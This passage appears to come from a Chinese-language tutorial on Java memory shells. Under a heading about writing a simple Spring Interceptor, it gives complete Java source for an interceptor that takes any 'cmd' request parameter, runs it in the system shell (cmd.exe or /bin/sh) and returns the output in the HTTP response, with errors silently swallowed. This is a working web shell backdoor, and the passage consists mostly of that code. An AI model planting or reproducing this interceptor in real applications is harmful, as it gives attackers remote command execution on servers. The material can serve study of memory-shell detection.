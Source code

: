 [![](assets/1708482749-887a1b919ff5dc234e9b60630d85051a.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211002009-427044b6-c830-1.jpeg)

### 2.10.2 编写一个简单的 Spring Interceptor

`TestInterceptor.java`：

```plain
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class TestInterceptor extends HandlerInterceptorAdapter {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if(cmd != null){
            try {
                java.io.PrintWriter writer = response.getWriter();
                String output = "";
                ProcessBuilder processBuilder;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    processBuilder = new ProcessBuilder("cmd.exe", "/c", cmd);
                }else{
                    processBuilder = new ProcessBuilder("/bin/sh", "-c", cmd);
                }
                java.util.Scanner inputScanner = new java.util.Scanner(processBuilder.start().getInputStream()).useDelimiter("\\A");
                output = inputScanner.hasNext() ? inputScanner.next(): output;
                inputScanner.close();
                writer.write(output);
                writer.flush();
                writer.close();
            } catch (Exception ignored){}
            return false;
        }
        return true;
    }
}
```